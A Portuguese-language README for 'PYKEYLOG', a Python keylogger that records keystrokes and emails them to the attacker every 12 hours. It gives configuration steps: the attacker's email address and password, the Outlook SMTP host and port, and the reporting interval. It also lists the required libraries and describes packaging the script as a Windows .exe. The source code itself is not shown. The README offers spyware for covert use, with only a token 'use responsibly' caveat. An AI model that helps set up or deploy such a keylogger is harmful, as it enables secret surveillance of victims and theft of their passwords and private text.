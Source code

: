 <h1 align="center"> PYKEYLOG </h1>
Keylogger em Python, feito da forma mais simples possível para copiar as teclas pressionadas e enviar a cada 12 horas para o e-mail do atacante.
# Como usar:
Altere: ´EMAIL_ADDRESS = "youremail@example.com"´ e ´EMAIL_PASSWORD = "yourpassword"´
Altere também na linha 34: server = smtplib.SMTP(host="smtp-mail.outlook.com", port=587) - para o smtp e porta do email que você for usar
Você também pode alterar o intervado de tempo que o e-mail será enviado com as teclas pressionadas em: SEND_REPORT_EVERY = 43200  # (seconds)
No meu caso, para não ficar chegando muitos emails, coloquei para receber a cada 12 horas. Use sempre em segundos.
# Lembre-se:
Importar as bibliotecas:
smtplib
pynput
threading
email.mime.text
# USE COM RESPONSABILIDADE!

# Transformar em .exe
Após a finalização do script, utilizei auto_py_to_exe para transformar o arquivo py em exe.
Enjoy
